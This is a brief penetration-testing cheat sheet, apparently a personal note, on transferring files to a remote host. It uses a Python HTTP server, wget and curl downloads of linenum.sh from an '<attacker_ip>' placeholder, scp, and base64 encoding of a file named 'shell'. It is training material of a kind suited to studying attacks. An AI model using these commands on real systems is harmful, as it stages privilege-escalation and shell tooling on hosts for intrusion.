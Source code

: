 ## wget

```
cd /tmp 
python -m http.server 8000
```

on remote host

```
wget http://<attacker_ip>:8000/linenum.sh
```

## curl

```
curl http://<attacker_ip>:8000/linenum.sh -o linenum.sh
```

*-o flag to specify output filename*

## scp

```
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

**use -P for port** I was stuck on this for two hours, make sure it's **CAPITALISED** p.


## base64
We can use that to encode the file, copy the text into remote host and decode it.

```
base64 shell -w 0
```

decode

```
echo <base64_output> | base64 -d > shell
```


